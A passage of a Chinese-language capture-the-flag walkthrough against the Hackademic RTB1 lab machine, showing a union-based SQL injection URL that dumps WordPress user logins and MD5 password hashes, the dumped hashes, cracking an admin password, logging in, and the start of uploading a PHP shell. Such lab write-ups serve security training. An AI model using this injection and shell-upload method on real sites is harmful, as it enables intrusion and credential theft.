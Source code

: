     发现确实是`wordpress`并且版本是`1.5.11`
    
6. 为了方便注入，我们到网上查找`wordpress`的表结构
    
    > [https://codex.wordpress.org/Database_Description](https://codex.wordpress.org/Database_Description/2.0)
    > 
    
    值得我们关注的是 **`wp_users`**表
    
    `user_login`，`user_pass`，`user_level` 中的三个字段
    
7. 接着注入
    
    获取表的`user_login`，`user_pass`，`user_level` 中的三个字段，并以`-`为分隔符
    
    ```php
    http://192.168.75.132/Hackademic_RTB1/?cat=0 union select 1,group_concat(user_login,0x2d,user_pass,0x2d,user_level),3,4,5 from wp_users
    ```
    
    得到数据：
    
    ```php
    NickJames-21232f297a57a5a743894a0e4a801fc3-1,
    JohnSmith-b986448f0bb9e5e124ca91d3d650f52c-0,
    GeorgeMiller-7cbb3252ba6b7e9c422fac5334d22054-10,
    TonyBlack-a6e514f9486b83cb53d8d932f9a04292-0,
    JasonKonnors-8601f6e1028a8e8a966f6c33fcd9aec4-0,
    MaxBucky-50484c19f1afdaf3841a0d821ed393d2-0
    ```
    
    可以发现`GeorgeMiller` 的权限是10是最大的，密码格式看着像是`md5`，我们拿到cmd5破解
    
    查询结果：`q1w2e3`
    
8. 我们找到后台，使用`GeorgeMiller` 登陆进去
    
    后台地址是 ： `http://192.168.75.132/Hackademic_RTB1/wp-login.php`
    
    登陆成功！
    

## 登录后台上传shell

登陆后台后，wordpress我们一般要做的是打开文件上传功能，并且上传getshell

1. 开启文件上传功能，并且添加php后缀
    
    ![image.png](image%204.png)
    